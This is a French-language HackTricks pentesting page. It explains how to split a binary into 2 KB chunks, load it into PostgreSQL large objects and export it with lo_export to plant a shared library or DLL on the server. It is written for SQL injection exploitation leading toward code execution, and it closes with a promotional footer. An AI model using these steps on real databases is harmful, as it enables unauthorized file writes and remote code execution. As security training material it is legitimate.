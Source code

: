 ```bash
split -b 2048 your_binary
```

Pour **sauvegarder un fichier complet dans cette table**, vous devez d'abord **créer un objet** dans la table mentionnée (identifié par un **LOID**) puis **insérer des morceaux de 2 Ko** dans cet objet. Il est très important que tous les **morceaux fassent 2 Ko** (sauf peut-être le dernier) **ou** la fonction d'**exportation** vers le système de fichiers **ne fonctionnera pas**.

Pour **diviser** votre **binaire** en **morceaux** de **2 Ko**, vous pouvez faire :
```bash
split -b 2048 pg_exec.so #This will create files of size 2KB
```
Afin de coder chacun des fichiers créés en Base64 ou Hex, vous pouvez utiliser :
```bash
base64 -w 0 <Chunk_file> #Encoded in 1 line
xxd -ps -c 99999999999 <Chunk_file> #Encoded in 1 line
```
{% hint style="info" %}
Lors de l'exploitation, n'oubliez pas que vous devez envoyer des **morceaux de 2 Ko de bytes en clair** (et non 2 Ko de bytes encodés en base64 ou hexadécimal). Si vous tentez d'automatiser cela, la taille d'un fichier **encodé en hexadécimal** est le **double** (vous devez donc envoyer 4 Ko de données encodées pour chaque morceau) et la taille d'un fichier encodé en **base64** est `ceil(n / 3) * 4`
{% endhint %}

De plus, en déboguant le processus, vous pouvez voir le contenu des grands objets créés avec :
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
# Utilisation de lo\_creat & Base64

Tout d'abord, nous devons créer un LOID où les données binaires vont être sauvegardées :
```sql
SELECT lo_creat(-1);       -- returns OID of new, empty large object
SELECT lo_create(173454);   -- attempts to create large object with OID 43213
```
Si vous exploitez une **Blind SQLinjection**, vous serez probablement plus intéressé par l'utilisation de `lo_create` avec un **LOID fixe** afin de **savoir où** vous devez **téléverser** le **contenu**.\
Notez également qu'il n'y a pas d'erreur de syntaxe, les fonctions sont `lo_creat` et `lo_create`.

Le LOID est utilisé pour identifier l'objet dans la table `pg_largeobject`. L'insertion de blocs de 2 Ko dans la table `pg_largeobject` peut être réalisée en utilisant :
```sql
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
```
```markdown
Enfin, vous pouvez exporter le fichier vers le système de fichiers en faisant (pendant cet exemple, le LOID utilisé était `173454`):
```
```sql
SELECT lo_export(173454, '/tmp/pg_exec.so');
```
{% hint style="info" %}
Notez que dans les versions les plus récentes de postgres, vous devrez peut-être **télécharger les extensions sans indiquer de chemin du tout**. [**Lisez ceci pour plus d'informations**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

Il se peut que vous souhaitiez supprimer le grand objet créé après l'avoir exporté :
```sql
SELECT lo_unlink(173454);  -- deletes large object with OID 173454
```
# Utilisation de lo\_import & Hex

Dans ce scénario, lo\_import va être utilisé pour créer un grand objet. Heureusement, dans ce cas, vous pouvez (et ne pouvez pas) spécifier le LOID que vous souhaiteriez utiliser :
```sql
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts');
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts', 173454);
```
Après avoir créé l'objet, vous pouvez commencer à insérer les données sur chaque page (souvenez-vous, vous devez insérer des blocs de 2 Ko) :
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=2;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=3;
```
Le HEX doit être juste le hex (sans `0x` ou `\x`), exemple :
```sql
update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0;
```
Finalement, exportez les données dans un fichier et supprimez l'objet volumineux :
```sql
select lo_export(173454, 'C:\\path\to\pg_extension.dll');
select lo_unlink(173454);  -- deletes large object with OID 173454
```
{% hint style="info" %}
Notez que dans les versions les plus récentes de postgres, vous pourriez avoir besoin de **télécharger les extensions sans indiquer de chemin** du tout. [**Lisez ceci pour plus d'informations**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

# Limitations

Après avoir lu la documentation sur les grands objets dans PostgreSQL, nous pouvons découvrir que **les grands objets peuvent avoir une ACL** (Liste de Contrôle d'Accès). Il est possible de configurer **de nouveaux grands objets** de sorte que votre utilisateur **n'ait pas suffisamment de privilèges** pour les lire, même s'ils ont été créés par votre utilisateur.

Cependant, il peut y avoir **un ancien objet avec une ACL qui permet à l'utilisateur actuel de le lire**, alors nous pouvons exfiltrer le contenu de cet objet.


<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
